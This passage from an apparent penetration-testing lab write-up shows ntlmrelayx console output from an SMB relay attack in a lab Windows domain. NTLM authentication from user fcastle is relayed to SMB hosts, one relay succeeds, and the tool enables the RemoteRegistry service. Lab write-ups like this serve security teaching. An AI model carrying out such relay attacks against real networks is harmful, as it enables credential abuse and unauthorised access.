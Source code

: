 <img src="./images/SMB_Relay_Attacks_Lab_1.png" alt="SMB Relay Attacks Lab 1" width="800"/>

This leads to the following output of `ntlmrelayx`:

```
(...)

[*] Servers started, waiting for connections
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL/FCASTLE SUCCEED
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.6
[-] Authenticating against smb://10.0.2.6 as MARVEL/FCASTLE FAILED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-8 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
```
